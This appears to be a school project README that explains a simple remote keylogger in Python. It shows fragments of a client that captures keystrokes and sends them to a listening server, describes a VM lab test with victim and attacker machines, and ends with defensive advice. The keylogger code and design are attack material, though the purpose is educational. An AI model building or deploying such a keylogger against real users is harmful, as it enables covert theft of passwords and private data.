

# keylogger_school_project
School project about keyloggers

### What are keyloggers?

Keyloggers are a type of malware that record every keystroke you make on your computer, including sensitive information like usernames and passwords.

Keyloggers also have legitimate and legal use cases, such as for employee monitoring, parental controls, and law enforcement purposes.

### A simple remote Keylogger in Python 3

The two scripts work together to capture keystrokes and send them over a socket connection to the server.

The client script captures the keystrokes and sends them over the socket connection to the server, while the server script listens for incoming connections and logs any received keystrokes to a file.

In other words, the scripts allow the user to remotely monitor keystrokes on a target machine.

### Client side script

The **keylogger.py** script captures keystrokes using the **pynput** library and sends them to a remote server. It does this by defining two functions: **send_data()** and **on_press()**. 

**on_press()** listens for key presses, converts them to strings, and adds them to a buffer (data_to_send variable) to be sent by **send_data()**.

```python
def on_press(key):
    global data_to_send
    data_to_send += "[Key Pressed]=> {}\n".format(key)
```

**send_data()** creates a socket object (used to connect to the remote server) and sends any data captured by **on_press()**.

The last three lines of the code listen for keystrokes using the **pynput** library, and call a function to send any keystrokes captured over a socket connection.

```python
with Listener(on_press=on_press) as listener:
    send_data()
    listener.join()
```

The **listener.join()** line waits for the keystroke listener to stop before the program exits.

### Server side script

The **handler.py** script creates a socket and listens for incoming connections on port 4242.

```python
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)	sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sock.bind(('0.0.0.0', 4242))
```

When a connection is established, the code receives data from the connection and writes it to a log file called "log.txt" using the **write_logs()** function. The code continues to receive and log data until the connection is closed by the sender.

```python
loop = True
	while loop:
		received_data = connection.recv(1024)
		if not received_data:
			loop = False
		else:
			write_logs(received_data.decode())
```

The **write_logs()** function appends data to the log file. It is used to store data received by the server-side script from the client-side script.

```python
def write_logs(data):
	with open("log.txt", "a") as f:
		f.write(data)
```

### Testing the scripts

The **keylogger.py** script will be executed on a Windows virtual machine, emulating a victim infected with the keylogger. The **handler.py** script will be executed on a Linux virtual machine, representing an attacker."

This setup emulates an attacker monitoring a victim's keystrokes remotely.

The following screenshot shows the script being executed by "the victim". Once the script is executed, the user types text as shown in the red underline.



The following screenshots show the "attacker" receiving a connection on the terminal and the keys logs saved in the log file.


### Conclusion

The scripts we talked about can be used by cyber attackers to steal sensitive information, such as passwords or financial data, from unsuspecting victims. This type of attack can be very harmful for individuals and businesses.

To protect ourselves, we can take a few simple steps:

- Install and keep updated anti-malware software
- Don't click on suspicious links or download files from untrusted sources
- Use strong, unique passwords and enable two-factor authentication when possible.
